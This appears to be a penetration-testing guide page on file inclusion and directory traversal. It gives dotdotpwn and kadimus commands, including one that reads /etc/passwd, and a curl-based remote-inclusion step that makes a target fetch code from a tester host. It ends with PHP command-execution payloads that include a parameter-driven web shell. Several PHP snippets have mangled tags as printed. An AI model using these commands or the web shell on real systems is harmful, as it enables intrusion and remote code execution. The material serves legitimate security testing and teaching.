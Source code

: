 # File inclusion

Many web applications manage files and use server-side scripts to include them. When input parameters (cookies, GET or POST parameters) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI (Local/Remote File Inclusion) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE (Remote Code Execution) or to client-side attacks such as XSS (Cross-Site Scripting).

Directory traversal (a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for file-related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* Local File Inclusion: inclusion of a local file (in the webserver directory) using an absolute path
* LFI + directory traversal: inclusion of a local file (in the webserver directory or not) by "climbing" the server tree with `../` (relative path)
* Remote File Inclusion: inclusion of a remote file (not on the server) using a URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) can help in finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
./dotdotpwn.pl -m http -h "http://frizzdc.frizz.htb/Gibbon-LMS/?q=" -M GET

dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) can help in finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE (Remote Code Execution) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

Once an attacker is able to execute code on a target, testing the limitations of that code execution can help to go from code execution (e.g. PHP, ASPX, etc.) to command execution (e.g. Linux or Windows commands).

With PHP as example, the tester can create a `phpinfo.php` containing `php phpinfo(); ?` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the `phpinfo` in the response.

> [!WARNING]
> If the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.

```bash
# Create phpinfo.php
echo 'php phpinfo(); ?' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute commands with one of the following payloads.

> [!TIP]
> As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.

```php
<php system('whoami'); ?>
```

```php
<php exec('whoami'); ?>
```

```php
<php passthru('whoami'); ?>
```

```php
<php shell_exec('whoami'); ?
```

```php
<php if(isset($_REQUEST['cmd'])){ echo "<pre"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>
```

## Resources

[https://www.acunetix.com/websitesecurity/directory-traversal](https://www.acunetix.com/websitesecurity/directory-traversal)

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

[https://owasp.org/www-community/attacks/Path_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)